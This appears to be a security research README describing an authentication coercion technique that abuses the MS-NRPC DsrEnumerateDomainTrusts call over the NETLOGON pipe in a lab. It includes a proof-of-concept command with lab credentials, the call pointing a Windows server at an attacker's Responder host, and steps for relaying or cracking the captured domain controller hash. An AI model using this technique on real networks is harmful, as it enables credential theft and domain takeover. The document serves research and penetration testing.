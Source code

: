 # MS-NRPC - Remote call to DsrEnumerateDomainTrusts (opnum 40)

## Summary

+ **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\PIPE\NETLOGON`

+ **Function name**: [`DsrEnumerateDomainTrusts`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f9823624-2b34-415c-bdca-9f9a6d97016b)

+ **Function operation number**: `40`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`DsrEnumerateDomainTrusts`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f9823624-2b34-415c-bdca-9f9a6d97016b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
DsrEnumerateDomainTrusts('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS DsrEnumerateDomainTrusts(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in] ULONG Flags,
   [out] PNETLOGON_TRUSTED_DOMAIN_ARRAY Domains
 );
```

## References

+ Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

+ Documentation of function `DsrEnumerateDomainTrusts`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/f9823624-2b34-415c-bdca-9f9a6d97016b